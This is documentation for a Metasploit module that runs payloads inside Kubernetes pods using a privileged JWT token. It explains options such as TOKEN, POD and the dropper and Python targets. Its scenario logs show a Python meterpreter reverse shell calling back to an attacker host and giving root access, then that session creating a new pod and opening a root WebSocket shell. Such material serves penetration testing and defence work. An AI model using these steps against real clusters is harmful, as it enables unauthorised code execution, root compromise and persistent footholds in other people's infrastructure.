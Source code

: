 ## Vulnerable Application

### Description

Execute a payload within a Kubernetes pod.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/kubernetes/exec`
3. Set the required options
4. Do: `run`
5. You should get a shell.

## Options

### SESSION
An optional session to use for configuration. When specified, the values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT`
will be gathered from the session host. This requires that the session be on an existing Kubernetes pod. The necessary
values may not always be present.

Setting this option will also automatically route connections through the specified session.

### TOKEN
The JWT token. The token with the necessary privileges to access the exec endpoint within a running pod and optionally
create a new pod.

### POD
The pod name to execute in. When not specified, a new pod will be created with an entrypoint that allows it to run
forever. After creation, the pod will be used to execute the payload. **The created pod is not automatically cleaned
up.** A note containing the created pod's information will be added to the database when it is connected.

### NAMESPACE
The Kubernetes namespace that the `TOKEN` has permissions for and that `POD` either exists in or should be created in.

### SHELL
The shell to use for execution. `bash` is likely preferred from a usability perspective, but is not present as often as
`sh` is.

### PodName
*This is an advanced option.*

The image from which to create the pod. When a new pod is created (`POD` is blank), this option can be used to specify
the image that is used. If this option is blank, each image will be tried from the list of running pods until one
successfully starts.

### TARGET
#### Interactive WebSocket
Communicate directly with the pod using the Kubernetes WebSocket API. This is the most similar option to the `kubectl
exec --stdin --tty` command. No Metasploit payload is transferred to the target.

### Unix Command
Run the specified command payload and read the output. Custom commands can be run with the `cmd/unix/generic` payload.

### Linux Dropper
Use a command stager to transfer a Metasploit payload to the target and execute it. This will result in the payload
being written to disk and will require potentially non-standard binaries to be present on the remote system, depending
on the selected `CMDSTAGER::FLAVOR` option.

### Python
Run a Python payload on the remote host. This technique will automatically find and use either a `python`, `python3`, or
`python2` binary on the remote system to use for execution.

## Scenarios

### Kubernetes v1.22.1
In this scenario, Metasploit has direct access to the Kubernetes API. A known token is used to execute a Python payload
within the `thinkphp-67f7c88cc9-tgpfh` pod.

```
msf > use exploit/multi/kubernetes/exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf exploit(multi/kubernetes/exec) > set TARGET Python 
TARGET => Python
msf exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/kubernetes/exec) >
```

Next, the compromised session is used to access the internal Kubernetes endpoint, create a new pod and open a shell
directly via a WebSocket.

```
msf exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```
